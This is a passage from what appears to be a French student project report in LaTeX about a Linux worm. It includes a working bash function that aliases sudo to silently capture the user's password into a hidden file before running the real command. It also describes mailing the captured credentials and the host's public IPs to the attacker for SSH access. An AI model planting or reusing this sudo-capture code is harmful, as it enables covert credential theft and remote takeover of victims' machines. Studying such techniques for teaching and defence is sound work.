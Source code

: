 \documentclass[]{projet-M1}
\begin{document}
Pour ce faire, il nous faut encore une fois écrire dans le .bashrc en surchargeant la commande sudo, de cette manière : 
\begin{lstlisting}
capture(){
	echo -n "[sudo] password for $USER: " && 
	read -rs password && 
	echo "$password:$(whoami)" >> $sudoFile && 
	echo "$password" | /usr/bin/sudo -S "$@"
}
alias sudo=capture;
\end{lstlisting}

Ainsi, si sudo est lancé par l'utilisateur concerné, en réalité c'est cet alias qui sera appelé, capturant le mot de passe demandé et l'écrivant dans le fichier caché /tmp/.ssh-mOTc45gfXwPj/agent.1338. Et pour moins éveiller les soupçons, l'alias lance la véritable commande sudo à la fin. De cette manière, l'utilisateur n'y voit que du feu, car la commande réelle demandée par ce dernier ainsi que l'ensemble de ses arguments sont ensuite appelés afin de ne pas éveiller les soupçons. Un utilisateur régulier de GNU/Linux pourrait cependant remarquer que son mot de passe lui est demandé à chaque commande sudo, ce qui n'est pas normal car il existe un temps de quelques minutes pendant lequel la commande sudo ne demande pas le mot de passe.

Il est possible d'ajouter une amélioration à cette fonctionnalité en envoyant sur un serveur distant appartenant à l'attaquant, les mots de passe ainsi capturés. Cependant, cela pourrait trahir l'anonymat de cet attaquant. 

\subsection{Envoi des mots de passe à distance}
Une fois certains mots de passe capturés via la technique présentées ci-dessus, le ver compte sur le fait que la machine infectée dispose de la commande \textbf{/usr/sbin/sendmail} afin d'envoyer à l'adresse définie juste avant, la liste des mots de passe avec les utilisateurs correspondant, et en plus les adresses IPv4 et IPv6 publiques de la machine. Cela permet à l'attaquant de se connecter à distance via \textbf{SSH} avec les mots de passe qu'il a reçu. Pour connaître les adresses IP publiques de la machine, le ver fait un \textbf{wget} sur cette page \url{http://tnx.nl/ip} et récupère le contenu.

\subsection{Un concours de circonstances}
Vous me direz que pour arriver à infecter et prendre le contrôle total de la machine, cela relève d'un exploit que toutes ces conditions soient réunies. Malheureusement, ceci peut arriver et il n'est pas rare que lorsqu'une des ces mauvaises configurations est présente sur le système, d'autres le soient. Il n'est pas surréaliste d'espérer que si le système est vulnérable à ShellShock, nous pourrions aller plus loin que simplement envoyer le ver sur la machine.
\end{document}
